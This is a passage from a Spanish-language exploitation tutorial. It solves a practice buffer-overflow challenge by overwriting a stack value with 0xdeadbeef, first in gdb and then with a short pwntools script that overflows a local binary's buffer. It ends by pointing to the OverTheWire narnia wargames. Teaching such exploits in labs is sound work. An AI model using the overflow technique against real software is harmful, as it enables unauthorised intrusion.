 Si accedemos al valor del registro `ebp-0xc`, vemos que actualmente vale `0x12345678`:

```gdb
x $ebp - 0xc
```
```gdb
0xffffd03c:	0x12345678
```

Vamos a probar a cambiarlo a `0xdeadbeef`:

```gdb
set *0xffffd03c = 0xdeadbeef
```
```gdb
x $ebp - 0xc
```
```gdb
0xffffd03c:	0xdeadbeef
```

Si continuamos con `c`, hemos resuelto el ejercicio!

```gdb
c
```
```gdb
Continuing.
good job!!
deadbeef
```

#### Script

Para practicar scripting podemos crear un script simple en python utilizando la librería [[pwntools]], que explote la vulnerabilidad:

```python
#!/bin/python3
from pwn import *

# Start program
io = process('./overwrite')

# Send string to overflow buffer
io.sendlineafter(b'?', b'A' * 32 + p32(0xdeadbeef))   #No hace falta invertirlo

# Receive output
print(io.recvall().decode())
```

----

## Challenges

Para practicar es recomendable hacer los challenges de [overthewire](https://overthewire.org/wargames/narnia/) en concreto los de *narnia*. Los niveles 0 y 1 (*narnia0* y *narnia1*).